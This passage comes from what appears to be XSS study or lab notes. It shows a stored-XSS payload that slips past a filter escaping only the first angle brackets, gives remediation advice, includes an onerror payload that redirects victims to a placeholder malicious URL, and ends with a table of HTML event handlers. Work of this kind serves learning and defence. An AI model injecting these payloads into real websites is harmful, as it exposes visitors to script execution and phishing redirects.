  2. Now that I know only the first set of angle brackets is escaped and anything after that isn't, I craft my payload as:
     ~~~
     Payload: <><img src="x" onerror="prompt('I am escaped!')">
     Rendered:
     <p>
       &lt;&gt;
       <img src="x" onerror="prompt('I am escaped!')">
     </p>
     ~~~

  3. A prompt pops up with a message after I submit (store) the payload in the comment section, which indicates the filter mechanism (`replace()` function) was bypassed and the application is still vulnerable to XSS.

  **Suggestion**: Make the escaping correct (use [global replacements or replaceAll/regex](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace#description)), deploy a strict [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline handlers, and protect cookies (HttpOnly/SameSite) to reduce impact.

  </details>
  -

</details>

### Page Redirect
User could inject the following code into a vulnerable website, causing an automatic redirect to a malicious site. When a victim loads the page with this injected script, they will be automatically redirected to <$url>.
   ~~~
   src=x onerror="window.location.href='<$url>'"
   ~~~

### HTML Events
<details markdown="1">
<summary>Click me to reveal the chart of HTML events</summary>

| Event | Trigger Condition | Elements | Notes |
| :------ | :------ | :------ | :------ |
| onmouseover | When mouse pointer moves over an element | Most HTML elements including input | Used for hover interaction |
| onmouseout | When mouse pointer leaves an element | Most HTML elements including input | |
| onmousedown | When mouse button pressed over an element | Most elements | |
| onmouseup | When mouse button released over an element | Most elements | |
| onclick | When user clicks on an element | Most elements | Commonly used event |
| onfocus | When element receives focus (tab, click, or programmatic) | Input, textarea, select | Particularly useful for inputs |
| onblur | When element loses focus | Input, textarea, select | |
| onchange | When element's value is changed and the control loses focus | Input, select, textarea | Fires after commit of the change |
| oninput | When the user modifies the value | Input, textarea | Fires immediately as value changes |
| onerror | When loading of resource fails | img, script, iframe, media tags | Does not fire on input elements |
| onload | When resource loads successfully | body, img, iframe, script, media | Does not fire on input elements |
| onsubmit | When form is submitted | form element | |
| onkeydown | When a key is pressed | Most elements | |
| onkeyup | When a key is released | Most elements | |
  
</details>
